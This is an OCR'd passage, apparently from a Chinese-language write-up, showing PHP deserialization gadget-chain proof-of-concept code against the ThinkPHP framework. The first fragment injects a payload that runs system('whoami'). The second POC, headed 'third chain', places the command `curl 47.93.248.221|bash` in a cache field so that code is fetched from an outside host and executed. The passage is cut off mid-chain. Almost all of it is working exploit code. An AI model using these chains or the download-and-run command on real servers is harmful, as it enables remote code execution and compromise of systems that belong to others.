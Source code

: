 ```
            $this->url = 'a:';
            $this->domain = "<?php system('whoami');?>";
            $this->app = new Middleware();
            $this->route = new Validate();
        }
    }
}

namespace think {

    use think\view\driver\Php;

    class Validate
    {
        public function __construct()
        {
            $this->type['getDomainBind'] = [new Php(), 'display'];
        }
    }
    class Middleware
    {
        public function __construct()
        {
            $this->request = "2333";
        }
    }
}

namespace think\view\driver {
    class Php
    {
        public function __construct()
        {
        }
    }
}

```

# 第三条链子

POC

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = "`curl 47.93.248.221|bash`";
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key = "1";
```